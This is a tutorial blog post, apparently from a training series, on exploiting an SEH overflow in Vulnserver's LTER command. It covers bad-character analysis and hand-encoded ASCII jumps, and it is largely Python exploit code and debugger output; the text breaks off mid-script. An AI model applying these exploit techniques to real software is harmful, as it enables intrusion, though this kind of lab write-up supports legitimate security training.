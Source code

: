 :slug: vulnserver-lter-seh/
:date: 2020-06-23
:category: attacks
:subtitle: Exploiting in stages
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Kevin Ku on Unsplash
:description: This series of posts deal on hacking Vulnserver, a Vulnerable-by-Design application that can used to practice Windows explotation. We've been faced to mostly space restrictions. This post will show how to exploit the LTER command on where we will need to bypass bad chars restrictions.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/w7ZyuGYNpRQ

= LTER: Overcoming Bad Chars

This is the sixth article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In previous posts, we have been able to exploit Vulnserver commands:

. `TRUN` was link:../vulnserver-trun/[exploited] using a direct EIP overwrite,
with virtually no space or characters restrictions to work on.
. `GMON` used a
link:../vulnserver-gmon/[Structured Exception Handling (SEH)] overwrite to
take control of the execution flow.
. `GTER` showed up with space restrictions and we were able to exploit it
using link:../vulnserver-gter/[egghunters] and
link:../vulnserver-gter-no-egghunter/[WinSocket stack reuse].
. `KSTET` had a very narrow buffer for us to work on, but we were able to
use a link:../vulnserver-kstet/[multistage exploit] to get our shell.

So far, we've been faced with mostly buffer space issues, but with little
to none restrictions on what kind of instructions we were allowed to use.

In fact, instruction restrictions are the rule. Think about exploiting a
'Host' HTTP header: A host name normally is only alphanumeric and few
other chars are allowed. If we are going to inject code on that header, we
would be surely limited to use instructions whose opcodes are in the allowed
list.

In this post, we will exploit the Vulnserver `LTER` command.

We'll have to use techniques we've learn on our previous posts, and include
some others in order for us to successfully exploit that command.

== Fingerprinting LTER

The enumeration part is the most important step. This will lead us
to the right path of exploiting our target.

We can create a new connection and see how `LTER` command works:

[source,bash]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
LTER me
LTER COMPLETE
LTER *
LTER COMPLETE
LTER 9
LTER COMPLETE
LTER !@#$$%&*()
LTER COMPLETE
----

Now try with something bulkier:

image::crash1.gif[Crash]

Hmm, something's not right. We can create an initial exploit to test faster.

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 4000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    fd.recv(128)
----

Now use a debugger to see what's going on:

image::crash2.gif[Crash 2]

Well, it seems we're facing a SEH overwrite. Please, check
link:../vulnserver-gmon/[this post] for an explanation of SEH.

OK, we need to figure out the offset by:

. Creating a cyclic pattern.
. Checking the offset of the pattern found in the SEH handler.

Let's do that:

[source,bash]
----
$ msf-pattern_create -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac...
----

Update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'<inset pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    fd.recv(128)
----

And run it:

image::pattern1.gif[Pattern]

The SEH handler was overwritten with `356F4534`, we can check the offset
using `!mona findmsp` inside the debugger:

image::mona1.png[Pattern offset]

Here `mona` is telling us that the `nSEH` field was overwritten at byte `3550`.
That means that the SEH handler was overwritten 4 bytes above. Let's check it
with `pattern_offset.rb`:

[source,bash]
----
$ msf-pattern_offset -q 356F4534
[*] Exact match at offset 3554
----

We're right. Let's update our exploit to reflect that offset:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    b'B' * 4 +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::pattern2.gif[Pattern OK]

Great. If we trigger the exception handler, we will overwrite `EIP`.

image::eip1.png[Pattern OK]

The stack window (bottom right) shows that our buffer is 8 bytes below the
stack pointer `ESP`, so we need to find a `POP/POP/RET` sequence on the
executable modules of Vulnserver that makes us land directly over the `nSEH`
field which we now control. `mona` can help us again:

image::poppopret1.png[POP POP RET]

We instructed `mona` to find `POP/POP/RET` gadgets (`seh`) and exclude
pointers with null bytes (`-cp nonull`), those with `SafeSEH` enabled
(`-cp safeseh=off`) and not belonging to the OS (`-o`). That gave us
12 pointers.

Let's use the first in the list `625010B4` to replace our `B` buffer:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    # 625010B4    5B                          POP EBX
    # 625010B5    5D                          POP EBP
    # 625010B6    C3                          RETN
    struct.pack('<L', 0x625010B4) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

We'd should be able to run that sequence that will direct the
execution flow to our controlled buffer. Let's check it:

image::badchar1.gif[Badchar return address]

Hummm something's not quite right. We injected the `625010B4` address but
for some reason the application turned the last byte of the address, `B4`
to `35` and got `62501035` instead. We didn't expect that.

We need to check what other variations would be applied to our buffer in order
to get the available bytes we can work with.

== Hunting for bad chars

Let's look at this image

image::ansi1.png[ANSI]

We can see here that our application works with `ANSI` encoded strings
instead of `UNICODE` strings. `ANSI` chars are 1 byte long, that means that
all the available `ANSI` chars are in the range from `0x00` to `0xff`.

With that in mind, we need to know which of those 256 possible `ANSI` chars
will be mangled by the application when we are injecting code.

To do that, `mona` can help us again:

[source,bash]
----
!mona bytearray
----

This will create an array with all the 256 available `ANSI` chars:

image::bytearray1.png[ANSI]

I've mention in other posts that it's a good idea to exclude null chars
(`0x00`), carriage return (`0x0d`) and line feed (`0x0a`) from our shellcode.
We can filter them in advance with:

[source,bash]
----
!mona bytearray -cpb '\x00\x0a\x0d'
----

Or with Python3:

[source,python]
----
EXCLUDE = ('0x0', '0xa', '0xd')
BADCHARS = bytes(bytearray([x for x in range(256) if hex(x) not in EXCLUDE]))
----

image::bytearray2.png[ANSI 2]

Now we can inject that array into our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

EXCLUDE = ('0x0', '0xa', '0xd')

BADCHARS = bytes(bytearray([x for x in range(256) if hex(x) not in EXCLUDE]))

PAYLOAD = (
    b'LTER .' +
    BADCHARS +
    b'A' * (3554 - len(BADCHARS)) +
    b'B' * 4 +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now, run this updated exploit to check how are all the chars treated by the
`LTER` command:

image::check_badchars1.gif[Checking bad chars]

We can see several things here:

. Our payload of bad chars was successfully injected after the `LTER .` string.
. It seems that all the chars, from `0x01` to `0x7f` were successfully
injected.
. When the bytearray reached the char `0x80`, it was converted to `0x01`, then
`0x81` to `0x02` and so on.

There is a more graphical way to check that, using `mona` once again:

[source,bash]
----
!mona cmp -f C:\mona\vulnserver\bytearray.bin -a <badchars memory address>
----

This will tell `mona` to compare the contents of the previously created
file `C:\mona\vulnserver\bytearray.bin` with the contents of memory on
where our bad chars array started to happen. In the previous example, the
bad chars was started to be injected on `00F0F1EE`:

image::badchars_start.png[Bad chars start]

So the `mona` command would be:

[source,bash]
----
!mona cmp -f C:\mona\vulnserver\bytearray.bin -a 00F0F1EE
----

And the output would be:

image::mona_cmp1.gif[Mona cmp]

Here is the resulting comparision table:

[source,text]
----
[+] Comparing with memory at location : 0x00f0f1ee (Stack)
Only 125 original bytes of 'normal' code found.
    ,-----------------------------------------------.
    | Comparison results:                           |
    |-----------------------------------------------|
  0 |01 02 03 04 05 06 07 08 09 0b 0c 0e 0f 10 11 12| File
    |                                               | Memory
 10 |13 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22| File
    |                                               | Memory
 20 |23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32| File
    |                                               | Memory
 30 |33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42| File
    |                                               | Memory
 40 |43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52| File
    |                                               | Memory
 50 |53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62| File
    |                                               | Memory
 60 |63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72| File
    |                                               | Memory
 70 |73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80 81 82| File
    |                                       01 02 03| Memory
 80 |83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f 90 91 92| File
    |04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 12 13| Memory
 90 |93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f a0 a1 a2| File
    |14 15 16 17 18 19 1a 1b 1c 1d 1e 1f 20 21 22 23| Memory
 a0 |a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af b0 b1 b2| File
    |24 25 26 27 28 29 2a 2b 2c 2d 2e 2f 30 31 32 33| Memory
 b0 |b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf c0 c1 c2| File
    |34 35 36 37 38 39 3a 3b 3c 3d 3e 3f 40 41 42 43| Memory
 c0 |c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf d0 d1 d2| File
    |44 45 46 47 48 49 4a 4b 4c 4d 4e 4f 50 51 52 53| Memory
 d0 |d3 d4 d5 d6 d7 d8 d9 da db dc dd de df e0 e1 e2| File
    |54 55 56 57 58 59 5a 5b 5c 5d 5e 5f 60 61 62 63| Memory
 e0 |e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef f0 f1 f2| File
    |64 65 66 67 68 69 6a 6b 6c 6d 6e 6f 70 71 72 73| Memory
 f0 |f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe ff         | File
    |74 75 76 77 78 79 7a 7b 7c 7d 7e 7f 80         | Memory
    `-----------------------------------------------'

                | File      | Memory    | Note
.-----------------------------------------------------
0   0   125 125 | 01 ... 7f | 01 ... 7f | unmodified!
.-----------------------------------------------------
125 125 128 128 | 80 ... ff | 01 ... 80 | corrupted

Possibly bad chars: 80
Bytes omitted from input: 00 0a 0d
----

That's a lot of very valuable information for us. Now it's clear why
our previously injected address `625010B4` was translated to `62501035`.

== Allowed charset

In the previous section we were able to narrow the allowed character set that
was allowed for us to inject code. The allowed characters range from hex
`0x1` to `0x7f`, excluding `0xa` and `0xd`. That range belongs to what's
known as the ASCII character set. In Linux, you can see the ASCII
table using the command `man 7 ascii`. However, a simple search on Google
will give thounsands of results.

This means that for now on, we are limited to work with that set of
characters.

The first thing we need to do is to search another `POP/POP/RET` gadget on
a pointer that contains only bytes allowed on our character set. Just before
we used the command `!mona seh -cm safeseh=off -cp nonull -o` to check
the available `POP/POP/RET` gadgets that, among other filters, does not contain
null bytes. Now, we can issue another command filtering the `POP/POP/RET`
gadgets containing only ASCII bytes and excluding `0xa` and `0xd`:

[source,bash]
----
!mona seh -cm safeseh=off -cp nonull,ascii -o -cpb '\x0a\x0d'
----

Fortunately for us, there's 3 pointers that fulfill all our requirements:

image::ascii_poppopret1.png[ASCII POP/POP/RET]

Let's choose the first result at `6250172B` and update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * 3554 +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check if, this time, we are able to reach of `POP/POP/RET` sequence:

image::retsuccess1.gif[Return success]

Yes! Things start to getting better... or not?

== Finding useful instructions

After the `POP/POP/RET` on `6250172B` sequence is executed, we landed
at the link:../vulnserver-gmon/[nSEH parameter]  and we need to get past over
the injected SEH handler address. What we did before with the
`GMON` command was to perform a short jump. That jump had the
bytecode `\xeb\x08`. However, this time we are limited by
instructions on the `\x00 - \x7f' range so the short jump opcode (`\xeb`) is
not an option. We need to find an instruction that can perform a short jump
an has an opcode in our allowed character set. That instruction must also fit
in 4 bytes or less.

Luckly for us,
link:http://unixwiz.net/techtips/x86-jumps.html[conditional jumps] are
the answer:

. They are 2 byte long.
. Most of them have opcodes on our allowed range.

However, we need to choose the appropiate condition that actually performs the
jump. For example, if we'd to choose the `JNZ` conditional, we must make sure
that the condition is always true in order to perform the desired jump.

Or, we can use some discrete mathematics here and take advantage of
predicated logic and use two opposite 2-bytes conditional jumps. The logic
is simple:

. Having `Bool(ZF) = unknown`
. As we don't know the corrent value of `ZF`, predicated logic says that
`Bool(ZF) || ~Bool(ZF) == true`

So, instead of inject a simple `JNZ SHORT +0x8`, we will inject two
conditional jumps:

[source,asm]
----
\x75\x08      ; JNZ SHORT +0x10: Will jmp if ZF is 1
\x74\x06      ; JZ SHORT +0x8: If the previous jump didn't happen (ZF is 0), jump!
----

This will ensure that, no matter the value of `ZF` on the processor, any of
those instructions will be true and the jump will be performed. Let's update
our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x8: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now check if that worked:

image::jmp-success1.gif[Jump success]

It did! The first condition was not met, the second was, and the
jump succeded.

Now, after successfully jumping over the SEH handler, we landed on a 41 byte
section where we injected our `C` buffer. What would normally
happen is to perform a long jump backwards to the start of our `A` buffer to
make some more room to inject something larger like a shellcode.

While that is certainly true, we can't perform a normal long jump because
it will contain unallowed bytes ('\xff' for example).

== Checking existant encoders

To overcome that, we will need to start encoding everything we inject, using
our allowed characters, in a way that it will decode in memory and execute
the needed action.

Let's encode our first needed instruction: The backwards long jump.

First, we need to get the desired opcode:

image::longjump1.png[Long jump]

As we can see, we'd need to inject an encoded version of `E9 13 F2 FF FF`

First, we're going to try existing encoders. We will try those
available on `msfvenom` that generate an alphanumeric shellcode:

image::failed_encoders1.gif[Failed encoders]

Having a restricted 41 byte buffer, the common alphanumeric encoders are
not viable:

. `x86/alpha_mixed` produced a 71 byte shellcode.
. `x86/add_sub` failed.
. `x86/opt_sub` produced a 61 byte shellcode.

Maybe the long jump instruction is too large. Let's try with the largest
backward short jump possible `JMP SHORT +0x80 = \xeb\x80`:

[source,bash]
----
$ python -c "buff= b'\xeb\x80'; fd = open('jmp.bin', 'wb'); fd.write(buff)"
$ cat jmp.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/opt_sub
x86/opt_sub succeeded with size 45 (iteration=0)
x86/opt_sub chosen with final size 45
Payload size: 45 bytes
Saved as: /dev/null
$ cat jmp.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 66 (iteration=0)
x86/alpha_mixed chosen with final size 66
Payload size: 66 bytes
Saved as: /dev/null
----

Better, however it won't fit either. That means that we have to encode that
short jump manually.

== Manual encoding

Having in mind our allowed characters set, the technique we will use is
something known as ADD/SUB/AND encoding. The technique is fully described
link:https://vellosec.net/2018/08/carving-shellcode-using-restrictive-character-sets/[here].

Basically, what we will need to do is the following:

. Point `ESP` to a place that will be in the execution flow path.
. Manipulate `EAX` using `ADD`, `SUB` or `AND` instructions to make it hold
our desired `\xeb\x80` value.

=== Align ESP

To accomplish the first point, we need to do the following:

. Get the current value of `ESP`
. Get the offset between the current `ESP` location and the place where we
want it to be. Remember that it must be later on our execution path.
. `ADD` that offset to `ESP`, so it effectively points to the new location.

Let's do that:

image::align-esp1.gif[Align ESP]

Note that all the resulting bytes are in our allowed charset. Now update our
exploit with that instructions:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x53\x14' +   # ADD AX,0x1453
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it. If it works, `ESP` must point to the very end of our `C` buffer:

image::align-esp2.gif[Align ESP]

Great! It means that any `PUSH` instruction will put thing in that place. And
that's exactly what we need to do.

=== Carve short jump

With that in place, we need to make `EAX` holds our short backwards jump bytes,
`\xeb\x80`. But we need to do it the right way:

. Remember that `EAX` is a 32 bit register, so we must need to pad it with
two NOPs. The resultant expected value should be '\xeb\x80\x90\x90'.
. As we are pushing that on the stack, and having in mind that the x86
architecture is little endian, we must reverse that value and make EAX equals
to `\x90\x90\x80\xeb` and thus, when the `PUSH EAX` occurs, the injected value
would be '\xeb\x80\x90\x90'.

First, we need to zero out `EAX`. This can be done using a couple of `ADD`
instructions:

[source,asm]
----
AND EAX,504A5050
AND EAX,2A302A2A
----

This will work because:

[source,txt]
----
504A5050 = 1010000010010100101000001010000
&&
2A302A2A = 0101010001100000010101000101010
__________________________________________
           0000000000000000000000000000000
----

Then we need to find some values that, when added, result on `909080eb`.
If we divide `909080eb` by two, we will get `48484075.8`. So we can add
`48484075` to `EAX` and then add `48484076` to make it `909080eb`.

Let's see if that works:

image::carve-eax1.gif[Carve EAX]

Great!

We can now execute `PUSH EAX` and our desired `\xeb\x80` should emerge
like magic:

image::push-eax1.gif[Carve EAX]

Isn't it wonderful? It looks black magic!

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

== More jumping around

Great, but we landed on a 78 byte buffer. We need to jump to the start of
our `A` buffer. However, as we saw before, 78 bytes is more than enough for
encoding and executing a long backwards jump. We will use the same strategy
as before.

First, we need to know the exact instruction of the desired backwards long
jump:

image::long-jump2.png[Second long jump]

The resulting bytes are `E9 2D F2 FF FF`. We must perform a long jump not to
the very start of our buffer, but somewhere in the first bytes.
This is because we don't know at this point the memory address on where
the `JMP` instruction will be generated and thus, the offset will likely
change.

With the needed bytes, we need to align the `ESP` pointer again. As we saw,
it's a good idea to point it to the higher memory of the block in order
to avoid overwriting our encoded payload. This leads to:

[source,asm]
----
push esp            ; Push the current value of ESP on the stack
pop eax             ; Pop it to EAX register
sub al,0x30         ; Substract 30 bytes from EAX
push eax            ; Push the resultant value of EAX to the stack
pop esp             ; Pop it back the ESP
----

Let's update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4 - 79) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    b'A' * (79 - 6) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::align-esp3.gif[Align ESP]

Great! We can now encode our backwards long jump. This time I will use
a tool called
link:https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder[Automatic ASCII Shellcode Subtraction Encoder].
It was created by Elias Augusto and I added some convenient improvements.

Let's get our encoded jump:

[source,bash]
----
$ python3 encoder.py -m -p -s 'E92DF2FFFF' -v LONG_JUMP
...
Shellcode length: 52
Shellcode Output:

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'
----

Great, let's add that `LONG_JUMP` variable to our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4 - 79) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
